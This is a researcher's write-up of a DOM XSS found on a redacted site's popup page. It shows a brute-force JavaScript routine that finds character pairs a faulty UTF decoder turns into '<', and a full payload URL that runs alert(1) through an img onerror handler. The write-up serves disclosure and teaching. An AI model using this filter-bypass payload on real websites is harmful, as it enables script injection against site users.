 # DOM XSS on [REDACTED2]

After spending hours doing recon on [REDACTED2]'s website, I came across this interesting URL:
```
https://[REDACTED2]/.../popupAlert.jsp?locale=i&style=g&txt=dummy_text
```

As you can guess by the URL, this seems to be a page which generates popups using the `txt` parameter.
The data in the `txt` parameter was written to the screen, but trying to use the open tag character (`<`) would 
safely write it to the page. So what was going on here?

Upon cracking open the Chrome DevTools, I found a snippet that looks like the following:
```javascript
// I don't have the original code, this is a vague re-creation
utftext = "\x12\x34"

i = 0
c = utftext.charCodeAt(i);
c2 = utftext.charCodeAt(i+1);

document.write(String.fromCharCode(((c&31)<<6) | (c2&63)));
```
Essentially, the `txt` parameter would encode non-English characters to the hex values 
you can see in the `utftext` variable. 

This means that we can't directly inject a `"` or `>` to escape the script and run our own JavaScript code. 
However, the `document.write` still caught my interest. What if we could figure out a way to encode a `<` character, 
so that we could get the `document.write` to inject our own HTML and JavaScript code?

I ended up writing the following code to try and bruteforce the combination of 2 hex values needed to get the 
`String.fromCharCode` function to return a `<`:
```javascript
// Which char do we want to encode
ccode = "<"

function decimalToHex(d, padding) {
    // https://stackoverflow.com/a/57807/11985743
    var hex = Number(d).toString(16);
    padding = typeof (padding) === "undefined" || padding === null ? padding = 2 : padding;
    while (hex.length < padding) {
        hex = "0" + hex;
    }
    return hex;
}

done = false
ccode = ccode.charCodeAt(0);
for (i = 100; i < 300; i ++) {
    for (j = 1; j < 2 ** 16 - 1; j ++) {
        if ((((i&31)<<6) | (j&63)) == ccode && j != ccode && i != ccode) {
            console.log("\\u" + decimalToHex(i, 4) + "\\u" + decimalToHex(j, 4));
            
            done = true
            break
        }
    }

    if (done) break
}
```
Which yielded the following output:
```text
\u0080\u007c
```
If we test this out by passing it back to the original function:
```javascript
utftext = "\u0080\u007c"
i = 0
c = utftext.charCodeAt(i);
c2 = utftext.charCodeAt(i+1);
String.fromCharCode(((c&31)<<6) | (c2&63));

// Outputs: '<'
```
Great! So all we need now is to encode the rest of the special characters in the payload, and we get a 
little something like this:
```text
\u00c0|img src=x onerror=(alert)(1)\u00c0~
```
Putting it all together, we get this link:
```
https://[REDACTED2]/.../popupAlert.jsp?locale=i&style=g&txt=\u00c0|img src=x onerror=(alert)(1)\u00c0~
```

And... our code executes!

![](XSS_[REDACTED2].jpg)